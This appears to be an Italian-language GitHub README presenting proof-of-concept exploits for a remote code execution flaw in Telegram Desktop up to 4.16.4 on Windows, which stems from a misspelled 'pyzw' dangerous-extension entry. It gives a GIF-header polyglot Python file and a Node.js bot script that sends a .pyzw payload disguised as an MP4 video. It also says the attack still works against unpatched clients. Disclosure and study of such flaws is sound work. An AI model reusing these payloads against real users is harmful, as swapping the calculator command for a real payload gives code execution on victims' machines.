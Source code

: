 # TELEGRAM DESKTOP RCE
## Setup della vittima
- **Telegram Desktop Version <= 4.16.4**
- **Python installato**
- **OS = Windows**

### WARNING: Questi PoC funzionano solo su Windows, altri sistemi operativi non sono stati testati.
La vulnerabilità si basa sul "typo" nello scrivere il nome dell'estensione "pyzw" nell'elenco delle estensioni pericolose.

![photo1713802375(1)](https://github.com/Raffo24/telegram-desktop-PoC/assets/46811658/1908a7dc-816b-47a9-9389-9915de4e2ea1)

## PoC 1 ==> file polyglot (image/gif)

File con del codice python ma che ha MIME “image/gif”
**exploit1.pyzw**
```
GIF89A = “test”
import os
os.system(“calc”)
```
Infatti **inserendo nell’header del file il magic number 47 49 46 38 37 61 (GIF89A)
è possibile creare un file che sembra una GIF ma che in realtà nasconde al suo interno un codice malevolo**.

![photo1713493979](https://github.com/Raffo24/telegram-desktop-PoC/assets/46811658/a8e72a18-55bb-401c-bfb9-a2c17799c98d)

L'hexdump:

![image_2024-04-19_04-04-03](https://github.com/Raffo24/telegram-desktop-PoC/assets/46811658/05e65e01-c8a7-43c7-a50d-d362773e44be)

Durante il caricamento il file viene considerato come una GIF da telegram desktop
tuttavia, nel momento di visualizzazione appare come una GIF non funzionante e viene visualizzato come un rettangolo nero.

Essendo considerata come una GIF da telegram desktop, quando il client prova ad aprirla, viene passato il controllo al sistema operativo; a quel punto Windows (basandoci sull’estensione e non sul MIME) la apre con python, permettendo di fatto RCE.

## PoC 2 ==> Telegram BOT API (video/mp4)
Codice che si vuole far eseguire alla vittima
**exploit2.pyzw**
```
__import__("subprocess").call(["calc.exe"])
```

Questa vulnerabilità sfrutta un altro concetto, le API di telegram hanno una funzione **SendVideo** che permette di inviare dei video; tuttavia, nonostante la documentazione specifica che i file video caricati devono chiaramente essere dei file MP4, **non viene fatto alcun controllo ed è possibile caricare dei file di qualunque estensione come fossero dei video**.
In questo modo i client desktop considereranno il file come video, questo perchè il client si fida(va) ciecamente del server.

**SendVideoCall.js**
```
const fs = require("fs");
const TelegramBot = require("node-telegram-bot-api");

const token = "<BOT_TOKEN>";

const bot = new TelegramBot(token, { polling: true });

bot.onText(/\/video/, (msg) => {
  const chatId = msg.chat.id;

  bot.sendVideo(
    chatId,
    fs.readFileSync("exploit2.pyzw"),
    {
      width: 300,
      height: 300,
      duration: 30,
      // thumbnail: "https://duckduckgo.com/favicon.ico",
    }, {
      filename: "fakeVideo.pyzw",
      contentType: "video/mp4"
    }
  );
});
```

Durante il caricamento il file viene considerato come un video da telegram desktop
tuttavia, nel momento di visualizzazione appare come un video non funzionante e viene visualizzato come un rettangolo nero con il simbolo "play" al centro.

Essendo considerato come un video da telegram desktop, quando il client prova ad aprirlo, viene passato il controllo al sistema operativo; a quel punto Windows (basandoci sull’estensione e non sul MIME) lo apre con python, permettendo di fatto RCE.

## WARNING: la vulnerabilità è stata patchata!
- **lato server**: aggiungendo l'estensione .untrusted ai file .pyzw (*.pyzw.untrusted)
- **lato client** (> 4.16.4) :
	* aggiungendo "pyzw" all'elenco delle estensioni pericolose
	* facendo in modo che non venga mostrata l'ateprima delle GIF e dei video non funzionanti 
	* aggiungendo un controllo per verificare che il MIME corrisponde al tipo di estensione inviata; se non corrisponde, il client aggiungerà l'estensione corrispondente al MIME/Content type, ad esempio:
		*  se viene inviato un file con MIME GIF verrà scaricato dal client con estensione corrispondente \*.pyzw.gif, 
		*  invece, se il file viene inviato dal BOT con ContentType "video/mp4" allora il file verrà scaricato sul client come \*.pyzw.mp4.
 	
<br>

![photo1713802375](https://github.com/Raffo24/telegram-desktop-PoC/assets/46811658/2ae70b62-e69b-424b-9649-ad347670e30d)


**È ancora possibile sfruttare la vulnerabilità** rielaborando uno degli exploit se: 
- il target ha ancora il client telegram desktop vecchio installato (<= 4.16.4);
- si conosce un programma installato nel computer della vittima in grado di eseguire delle azioni a seguito dell'apertura di un file.
